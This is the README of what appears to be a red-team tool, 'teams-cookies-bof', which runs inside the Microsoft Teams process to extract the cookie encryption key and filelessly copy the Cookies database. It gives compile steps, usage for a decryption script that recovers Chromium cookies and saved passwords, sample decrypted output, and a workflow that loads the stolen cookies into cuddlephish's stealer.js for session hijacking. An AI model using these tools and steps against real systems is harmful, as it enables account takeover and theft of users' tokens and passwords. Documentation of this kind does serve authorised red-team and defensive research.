 # teams-cookies-bof
Steal cookies for Teams, while running within the `ms-teams.exe` process.

Based on: [https://blog.randorisec.fr/ms-teams-access-tokens/](https://blog.randorisec.fr/ms-teams-access-tokens/).

This tool is heavily based on the [Cookie-Monster-BOF](https://github.com/KingOfTheNOPs/cookie-monster).

The BOF will extract the Encryption Key, locate the `msedgewebview2.exe` processes with a handle to the Cookies file, copy the handle(s) and then filelessly download the target file(s).

Once the Cookies are downloaded, the Python decryption script (see below) can be used to extract those secrets.

## BOF Usage

The BOF is supposed to be run within the `ms-teams.exe` Teams process. The BOF takes no arguments.

<img width="934" height="429" alt="poc" src="https://github.com/user-attachments/assets/7c21e100-4c7b-4c1a-8f7e-fff1e34a1e38" />

## Compile BOF 
Ensure Mingw-w64 and make is installed on the Linux prior to compiling.
```
make
```

## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```

Usage
```
python3 decrypt.py -h                                                                                                                                                                      
usage: decrypt.py [-h] -k KEY -o {cookies,passwords,cookie-editor,cuddlephish,firefox} -f FILE [--chrome-aes-key CHROME_AES_KEY]

Decrypt Chromium cookies and passwords given a key and DB file

options:
  -h, --help            show this help message and exit
  -k KEY, --key KEY     Decryption key
  -o {cookies,passwords,cookie-editor,cuddlephish,firefox}, --option {cookies,passwords,cookie-editor,cuddlephish,firefox}
                        Option to choose
  -f FILE, --file FILE  Location of the database file
  --chrome-aes-key CHROME_AES_KEY
                        Chrome AES Key
```

Examples:
Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py -k "\xec\xfc...." -o cookies -f ChromeCookies.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```
Decrypt Chrome Cookies with Chrome AES Key
```
python3 decrypt.py --chrome-aes-key '\x8e\....' -k "\x03\...." -o cuddlephish -f ChromeCookies.db
Cookies saved to cuddlephish_2025-07-03_01-53-57.json
```
Decrypt Chrome/Edge Cookies File and save to json
```
python .\decrypt.py -k "\xec\xfc...." -o cookie-editor -f ChromeCookies.db
Results Example:
Cookies saved to 2025-04-11_18-06-10_cookies.json
```
Import cookies JSON file with https://cookie-editor.com/ 

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py -k "\xec\xfc...." -o passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

### CuddlePhish Support
added cuddlephish option to the decrypt script which should support using the cookie with https://github.com/fkasler/cuddlephish

```
# Decrypt Cookies
python3 decrypt.py -k "\xec\xfc..." -o cuddlephish -f ChromeCookies.db

# Clone Project
cd 
git clone https://github.com/fkasler/cuddlephish
cd cuddlephish

# Install Dependencies Example on Debian 
curl -fsSL https://deb.nodesource.com/setup_23.x -o nodesource_setup.sh
sudo -E bash nodesource_setup.sh
sudo apt-get install nodejs
npm install

# Import Cookies
cp ~/cookie-monster/cuddlephish_YYYY-MM-DD_HH-MM-SS.json .
node stealer.js cuddlephish_YYYY-MM-DD_HH-MM-SS.json
```

## References
Stealing Microsoft Teams access tokens in 2025:
https://blog.randorisec.fr/ms-teams-access-tokens/ <br>
Cookie-Monster-BOF:
https://github.com/KingOfTheNOPs/cookie-monster <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
